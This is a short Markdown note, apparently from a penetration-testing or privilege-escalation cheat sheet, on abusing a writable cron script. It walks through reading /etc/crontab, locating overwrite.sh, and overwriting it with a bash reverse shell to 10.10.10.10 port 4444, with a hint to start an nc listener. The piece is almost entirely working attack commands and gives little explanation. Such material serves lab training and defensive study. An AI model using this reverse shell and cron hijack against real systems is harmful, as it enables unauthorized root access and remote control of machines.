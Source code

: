 # File premission

```bash
cat /etc/crontab
```

Locate the full path of the overwrite.sh (one of the files running every minute) file:

```bash
locate overwrite.sh
```

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your own machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

{% hint style="info" %}
note that you have to run a listener (for example with nc) on your machine with port 4444 and change the ip in the commend with your machines IP
{% endhint %}
